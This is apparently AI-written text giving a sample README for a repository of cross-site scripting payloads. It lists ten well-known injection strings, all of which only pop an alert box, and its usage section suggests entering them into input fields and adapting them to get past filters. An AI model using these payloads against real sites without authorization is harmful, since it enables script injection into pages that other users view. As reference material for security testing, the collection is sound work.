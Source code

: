 Certainly! Below is a sample README file for a GitHub repository focused on XSS payloads:

---

# XSS Payload Repository

Welcome to the **XSS Payload Repository**. This repository contains a collection of Cross-Site Scripting (XSS) payloads that can be used to test and exploit XSS vulnerabilities in web applications. This is an essential resource for security researchers, penetration testers, and cybersecurity professionals working in the field of web security.

## Table of Contents

- [Introduction](#introduction)
- [Payloads](#payloads)
  - [1. Basic Script Alert Payload](#1-basic-script-alert-payload)
  - [2. Image Tag with Onerror Event](#2-image-tag-with-onerror-event)
  - [3. Anchor Tag with Href Attribute](#3-anchor-tag-with-href-attribute)
  - [4. SVG with Onload Event](#4-svg-with-onload-event)
  - [5. Event Handlers in Any HTML Element](#5-event-handlers-in-any-html-element)
  - [6. Iframe Injection](#6-iframe-injection)
  - [7. Form Action with JavaScript URI](#7-form-action-with-javascript-uri)
  - [8. JavaScript in CSS Context](#8-javascript-in-css-context)
  - [9. Input Tag with Event Handler](#9-input-tag-with-event-handler)
  - [10. Malicious JavaScript in URL](#10-malicious-javascript-in-url)
- [Usage](#usage)
- [Contributing](#contributing)
- [License](#license)

## Introduction

Cross-Site Scripting (XSS) is a common vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. This repository is a collection of XSS payloads that can be used to test the security of web applications and demonstrate the impact of XSS vulnerabilities.

## Payloads

### 1. Basic Script Alert Payload
```html
<script>alert('XSS');</script>
```
*Classic alert box to test basic XSS vulnerability.*

### 2. Image Tag with Onerror Event
```html
<img src="invalid.jpg" onerror="alert('XSS')">
```
*Exploits the `onerror` event of an image to trigger JavaScript.*

### 3. Anchor Tag with Href Attribute
```html
<a href="javascript:alert('XSS')">Click me</a>
```
*Uses a JavaScript URI in a hyperlink to execute code.*

### 4. SVG with Onload Event
```html
<svg/onload=alert('XSS')>
```
*Injects JavaScript through the onload event of an SVG element.*

### 5. Event Handlers in Any HTML Element
```html
<body onload=alert('XSS')>
```
*Uses `onload` in the body tag to execute JavaScript.*

### 6. Iframe Injection
```html
<iframe src="javascript:alert('XSS')"></iframe>
```
*Uses an iframe with a `src` attribute pointing to a JavaScript payload.*

### 7. Form Action with JavaScript URI
```html
<form action="javascript:alert('XSS')">
  <input type="submit">
</form>
```
*Triggers the payload when the form is submitted.*

### 8. JavaScript in CSS Context
```css
<style>*{xss:expression(alert('XSS'))}</style>
```
*Injects JavaScript through CSS using the deprecated `expression` method.*

### 9. Input Tag with Event Handler
```html
<input type="text" value="XSS" onfocus="alert('XSS')">
```
*Triggers the alert when the input field gains focus.*

### 10. Malicious JavaScript in URL
```html
<a href="http://victim.com?param=<script>alert('XSS')</script>">XSS Link</a>
```
*Injects JavaScript into a query parameter, which may execute if the site improperly handles it.*

## Usage

1. **Clone the Repository:**
   ```bash
   git clone https://github.com/yourusername/xss-payloads.git
   ```
2. **Use the Payloads:**
   * These payloads can be inserted into input fields, URLs, or any location where user input is reflected back in the web application.
   * Use them to test if the application is vulnerable to XSS attacks.

3. **Modify as Needed:**
   * Feel free to modify these payloads to fit specific contexts or bypass filters.

## Contributing

We welcome contributions! If you have a new XSS payload or an improvement to an existing one, feel free to submit a pull request. Please ensure your payloads are well-documented.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

